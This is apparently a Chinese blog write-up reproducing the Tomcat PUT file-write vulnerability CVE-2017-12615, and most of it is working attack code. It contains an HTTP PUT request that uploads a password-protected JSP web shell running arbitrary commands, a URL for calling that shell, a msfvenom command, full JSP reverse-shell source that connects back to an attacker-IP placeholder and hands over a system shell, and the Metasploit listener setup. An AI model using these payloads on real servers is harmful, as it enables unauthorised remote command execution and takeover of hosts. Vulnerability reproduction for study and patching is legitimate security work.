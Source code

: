 ```yaml
---
title: Tomcat Put方法任意写文件漏洞(CVE-2017-12615)
date: 2020-07-19 20:40:10
categories: 漏洞复现
tags: Tomcat
---
```


#### 背景

在运行Tomcat的主机上并且启用了HTTP PUT请求方法，**readonly**参数设置为false，攻击者能够将文件写入到服务器。Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特点来绕过了限制。Linux下可以使用“/”,Windows下可以使用“%20”

<!--more-->

#### 复现过程

发送如下payload

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%

    if("123456".equals(request.getParameter("pwd"))){

        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();

        int a = -1;

        byte[] b = new byte[2048];

        out.print("<pre>");

        while((a=in.read(b))!=-1){

            out.println(new String(b));

        }

        out.print("</pre>");

    }

%>
```

![](http://cdn.laohuan.art/%E3%80%812020-07-17_14-22-55.png)

返回201后便在网站目录下生成了1.jsp文件

![](http://cdn.laohuan.art/2020-07-17_14-39-07.png)

访问shell

```
http://IP:8080/1.jsp?pwd=123456&i=whoami
```

![](http://cdn.laohuan.art/2020-07-17_14-36-54.png)

![](http://cdn.laohuan.art/2020-07-17_14-37-18.png)

也可以使用msf的jsp反弹shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=VPSIP LPORT=4444 R > cmd.jsp
```

生成cmd.jsp,将其内容put到服务器

```java
%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream yw;
    OutputStream jz;

    StreamConnector( InputStream yw, OutputStream jz )
    {
      this.yw = yw;
      this.jz = jz;
    }

    public void run()
    {
      BufferedReader bx  = null;
      BufferedWriter dob = null;
      try
      {
        bx  = new BufferedReader( new InputStreamReader( this.yw ) );
        dob = new BufferedWriter( new OutputStreamWriter( this.jz ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = bx.read( buffer, 0, buffer.length ) ) > 0 )
        {
          dob.write( buffer, 0, length );
          dob.flush();
        }
      } catch( Exception e ){}
      try
      {
        if( bx != null )
          bx.close();
        if( dob != null )
          dob.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "反弹IP", 4444 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>
```

msf设置好监听

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 0.0.0.0
set lport 4444
run
```

成功回连

![](http://cdn.laohuan.art/2020-07-17_15-06-30.png)

参考链接

<https://www.freebuf.com/vuls/148283.html>

<https://www.cnblogs.com/swyft/articles/5563732.html>




